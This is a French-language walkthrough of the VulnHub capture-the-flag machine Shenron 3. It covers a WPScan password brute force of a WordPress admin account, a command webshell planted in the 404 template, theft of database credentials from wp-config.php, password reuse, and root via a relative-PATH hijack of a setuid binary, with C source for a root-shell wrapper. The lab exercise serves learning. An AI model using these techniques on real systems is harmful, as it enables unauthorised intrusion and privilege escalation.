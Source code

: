 # Solution du CTF Shenron 3 de VulnHub

Dernier épisode (à ce jour) de la série, [shenron: 3](https://vulnhub.com/entry/shenron-3,682/) est un CTF téléchargeable sur VulnHub.

```
Nmap scan report for 192.168.56.62
Host is up (0.00026s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: shenron-3 | Just another WordPress site
|_http-generator: WordPress 4.6
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Une énumération à l'aide de `WPscan` sur le Wordpress ne ressort aucune information intéressante.

## Le bon, la brute et le webshell

Une énumération web ne trouvant aucun fichier particulier, je me décide de bruteforcer le compte admin du Wordpress :

```shellsession
$ docker run -v /tools/wordlists:/wordlists --add-host shenron:192.168.56.62 -it --rm wpscanteam/wpscan --url http://shenron/ -U admin -P /wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

--- snip ---

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / iloverockyou                                                                                                                                                                                  
Trying admin / ilovephil Time: 00:04:51 <                                                                                                                               > (31535 / 14375925)  0.21%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: iloverockyou
```

Ca a pris un bon paquet de minutes mais ce fut utile :)

Une fois connecté sur l'interface du Wordpress je vais dans *Appeareance > Editor* puis j'édite le template pour les erreurs 404.

Je rajoute mon code dedans, il ne reste plus qu'à demander un article de blog invalide avec ma commande en paramètre:

`http://shenron/index.php/2048?cmd=id` qui retourne `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Une fois récupéré mon shell je commence par récupérer les identifiants de BDD dans `wp-config.php` :

```php
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'Wordpress@123');
```

Il n'y a qu'un seul utilisateur dans la table `wp_users` et comme on connait le mot de passe, ça n'a aucune utilité.

Après avoir fouillé rapidement je ne remarque rien de particulier sur le système.

Je tente le mot de passe `iloverockyou` pour l'utilisateur `shenron` et bingo, ça fonctionne !

## A l'ancienne

Il y a deux fichiers notables dans le dossier personnel de l'utilisateur :

```
-rwx------ 1 shenron shenron    33 Apr 16  2021 local.txt
-rwsr-xr-x 1 root    root    16712 Apr 15  2021 network
```

Le premier est bien sûr le flag (`a57e2ff676cd040d58b375f686c7cedc`)  et l'autre est un binaire setuid root qui semble appeller `netstat` (extraits choisis du hexdump) :

```
00000400  00 00 00 00 00 00 00 00  00 73 65 74 75 69 64 00  |.........setuid.|
00000410  73 79 73 74 65 6d 00 5f  5f 63 78 61 5f 66 69 6e  |system.__cxa_fin|
00000420  61 6c 69 7a 65 00 73 65  74 67 69 64 00 5f 5f 6c  |alize.setgid.__l|
00000430  69 62 63 5f 73 74 61 72  74 5f 6d 61 69 6e 00 6c  |ibc_start_main.l|
00000440  69 62 63 2e 73 6f 2e 36  00 47 4c 49 42 43 5f 32  |ibc.so.6.GLIBC_2|
00000450  2e 32 2e 35 00 5f 49 54  4d 5f 64 65 72 65 67 69  |.2.5._ITM_deregi|
00000460  73 74 65 72 54 4d 43 6c  6f 6e 65 54 61 62 6c 65  |sterTMCloneTable|
00000470  00 5f 5f 67 6d 6f 6e 5f  73 74 61 72 74 5f 5f 00  |.__gmon_start__.|
00000480  5f 49 54 4d 5f 72 65 67  69 73 74 65 72 54 4d 43  |_ITM_registerTMC|
00000490  6c 6f 6e 65 54 61 62 6c  65 00 00 00 00 00 02 00  |loneTable.......|

00002000  01 00 02 00 6e 65 74 73  74 61 74 20 2d 6e 6c 74  |....netstat -nlt|
00002010  75 70 00 00 01 1b 03 3b  38 00 00 00 06 00 00 00  |up.....;8.......|
```

On est sur une faille classique de PATH relatif. La problématique c'est que `netstat` est appelé avec des options spécifiques donc si on fait appeller `bash` à la place de `netstat`, `bash` quittera en indiquant qu'une option est invalide.

On doit donc écrire notre propre code qui nous donnera un shell sans tenir compte des options :

```c
#include <unistd.h>
#include <stdlib.h>

int main(char *argv[]) {
  setreuid(0, 0);
  setregid(0, 0);
  system("/bin/dash -p");
  return 0;
}
```

Je le compile en static depuis ma machine car `gcc` n'est pas sur la VM puis je le dépose dans `/tmp`.

```shellsession
shenron@shenron:~$ cp /tmp/gotroot netstat
shenron@shenron:~$ export PATH=.:$PATH
shenron@shenron:~$ ./network
# id
uid=0(root) gid=0(root) groups=0(root),1000(shenron)
# cd /root
# ls
root.txt
# cat root.txt
                                                               
  mmmm  #                                                 mmmm 
 #"   " # mm    mmm   m mm    m mm   mmm   m mm          "   "#
 "#mmm  #"  #  #"  #  #"  #   #"  " #" "#  #"  #           mmm"
     "# #   #  #""""  #   #   #     #   #  #   #   """       "#
 "mmm#" #   #  "#mm"  #   #   #     "#m#"  #   #         "mmm#"
                                                               
Your Root Flag Is Here :- a7ed78963dffd9450a34fcc4a0eecb98

Keep Supporting Me. ;-)
```

*Publié le 18 novembre 2022*
